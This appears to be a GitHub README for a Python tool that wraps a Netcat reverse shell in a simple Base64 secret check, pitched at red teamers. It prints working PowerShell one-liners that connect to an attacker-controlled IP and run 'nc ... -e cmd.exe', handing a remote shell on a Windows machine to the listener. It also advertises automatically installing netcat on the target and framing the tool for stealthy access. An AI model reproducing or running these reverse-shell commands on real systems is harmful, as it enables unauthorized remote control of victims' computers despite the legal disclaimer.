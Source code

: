 # 🔐 Netcat Authenticator Tool

A lightweight Python-based tool that adds an **authentication layer over Netcat** before granting reverse shell access — all over a single port. This utility is built for **red teamers, penetration testers, and security researchers** who need secure shell access from Windows to Kali/Linux machines.

---

## ⚙️ Features

- ✅ Authentication before shell access using Base64 secrets  
- ✅ Single-port operation: both authentication and shell happen on the same port  
- ✅ PowerShell reverse shell command generator for Windows clients  
- ✅ Automatic Netcat installation on Windows if it's missing  
- ✅ Clean and simple CLI interface  
- ✅ Supports exit mechanism and proper session handling  

---

## 🧠 Use Case

In typical Netcat reverse shells, anyone connecting to a listener gets instant access — **this tool prevents that by requiring a secret key** to authenticate the client. Only after the correct key is sent will the listener allow the shell to connect.

This can be helpful for:

- Red team operations where stealth and access control are critical  
- Teaching secure shell handling with minimal setup  
- Preventing unintended access on open listeners during internal testing  

---

## 📦 Requirements

- Python 3.x  
- Netcat (`nc`) must be available on the Kali system  
- Admin privileges on Windows (for installation)
- Standard Python libraries used:
    argparse, base64, socket, signal, sys, subprocess, os, shutil

  
---

## 🚀 Installation

Clone the repo:

```bash
git clone https://github.com/yourusername/netcat-authenticator.git
cd netcat-authenticator
```

---

## 🛠️ Usage

### 1. Generate PowerShell One-liner for Client (Windows)

This command generates a PowerShell one-liner that can be run on a Windows machine to authenticate and get shell access:

```bash
python3 tool.py --mode generate --secret YOUR_SECRET --ip YOUR_KALI_IP --port 4444
```

📌 Output Example:

```powershell
powershell -command "$ip='192.168.1.10';$port=4444;$b='c2VjcmV0MTIz';$resp=echo $b|nc $ip $port;if($resp -match 'OK'){nc $ip $port -e cmd.exe}else{exit}"
```

---

### 2. Start Listener on Kali (Linux)

This command starts the secure listener on Kali Linux:

```bash
python3 tool.py --mode listen --secret YOUR_SECRET --port 4444
```

🖥️ The tool will:

- Wait for incoming connections  
- Verify the Base64-encoded secret  
- Only if correct, start the actual shell listener on the same port  

---

## 🔐 Example Workflow

**Step 1 (on Kali):**
```bash
python3 tool.py --mode listen --secret test123 --port 4444
```

**Step 2 (on Windows):**
Run the generated one-liner in PowerShell:

```powershell
powershell -command "$ip='192.168.1.10';$port=4444;$b='dGVzdDEyMw==';$resp=echo $b|nc $ip $port;if($resp -match 'OK'){nc $ip $port -e cmd.exe}else{exit}"
```

---

## 🧩 How It Works

- Listener waits on a single port for authentication  
- Client sends a Base64-encoded secret  
- If it matches, the server sends an OK response  
- Client then connects again on the same port to spawn `cmd.exe`  
- If authentication fails, connection is closed immediately  

---

## ❗ Disclaimer

⚠️ This tool is intended strictly for educational and authorized security testing purposes only. Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical.
